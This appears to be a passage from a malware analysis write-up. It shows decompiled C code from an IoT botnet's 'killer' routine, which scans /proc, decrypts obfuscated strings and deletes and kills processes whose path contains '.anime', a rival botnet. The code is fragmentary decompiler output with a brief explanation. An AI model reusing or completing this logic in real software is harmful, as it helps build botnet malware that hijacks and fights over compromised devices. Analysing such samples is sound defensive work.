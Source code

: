 ```c
    if (tmp2 != -1) {
      mw_close();
      mw_encrypt_with_key(0xd);
      mw_encrypt_with_key(0xe);
      iVar4 = mw_readlink(realpath,killer_realpath);
...
```

```c
void mw_init_killer(void)

{
...
      pid_threshold = 400;
      iVar3 = 0;
      while( true ) {
        mw_decrypt_with_key(0xd);
        uVar2 = mw_get_table_entry(0xd,0); // /proc
        dir = mw_opendir(uVar2);
        if (dir == (DIR *)0x0) break;
        mw_encrypt_with_key(0xd);
LAB_0000e340:
        file = mw_readdir(dir);
        if (file != (dirent *)0x0) {
          while ((byte)file->d_name[0] - 0x30 < 10) {
            pid_str = file->d_name;
            pid = mw_atoi(pid_str);
            iVar3 = iVar3 + 1;
            if (pid_threshold < pid) {
              iVar1 = mw_time(0);
              mw_decrypt_with_key(0xd); // /proc
              mw_decrypt_with_key(0xe); // /exe
              uVar2 = mw_get_table_entry(0xd,0);
              iVar4 = mw_strcpy(exe_path,uVar2);
              iVar5 = mw_strcpy(exe_path + iVar4,pid_str);
              uVar2 = mw_get_table_entry(0xe,0);
              mw_strcpy(exe_path + iVar4 + iVar5,uVar2);
...
              mw_encrypt_with_key(0xd);
              mw_encrypt_with_key(0xe);
              iVar4 = mw_readlink(exe_path,realpath,0xfff);
...
```


It searches for process names containing `.anime` which is a competitor botnet and tries to kill them.

```c
void mw_init_killer(void)

{
...
              iVar4 = mw_readlink(exe_path,realpath,0xfff);
              pid_threshold = pid;
              if (iVar4 != -1) {
                realpath[iVar4] = 0;
                mw_decrypt_with_key(0x1e); // .anime
                uVar2 = mw_get_table_entry(0x1e,0);
                iVar4 = mw_strcasestr(realpath,iVar4 + -1,uVar2);
                if (iVar4 != -1) {
                  mw_unlink(realpath);
                  mw_kill(pid,9);
                }
                mw_encrypt_with_key(0x1e);
```